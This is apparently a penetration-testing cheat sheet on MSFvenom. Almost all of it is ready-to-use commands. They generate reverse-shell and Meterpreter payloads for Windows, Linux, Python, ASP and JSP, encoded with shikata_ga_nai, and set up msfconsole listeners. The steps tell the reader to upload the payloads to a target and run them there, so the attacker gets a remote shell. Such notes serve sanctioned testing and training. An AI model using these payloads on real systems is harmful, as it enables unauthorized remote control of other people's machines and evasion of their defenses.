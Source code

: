 # MSFvenom

## Generate Shellcode

Create Executable to drop on Windows target

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f exe > wince.exe
```

Upload wince.exe to the Windows target

Start netcat listener

Execute `wince.exe` from the Windows target

## Encoder

### Windows

Create Meterpreter shell executable

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f exe > winmet.exe
```

Upload winmet.exe to the Windows target

Set up a Meterpreter Listener

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit
```

Execute winmet.exe from the Windows target

### Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f elf > linmet
```

## Custom

### Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > cmdpy.sh
```

Upload to target

Start netcat listener

Execute from target

### Python Meterpreter

```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw cmd.py
```

Upload to target

Set up a Meterpreter Listener

```bash
msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit
```

Execute from target

## ASP

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f asp > cmd.asp
```

## JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f raw > cmd.jsp
```

## Resources

### Payloads

{% embed url="https://hannahsuarez.github.io/2017/msfvenom-payloads" %}

## test
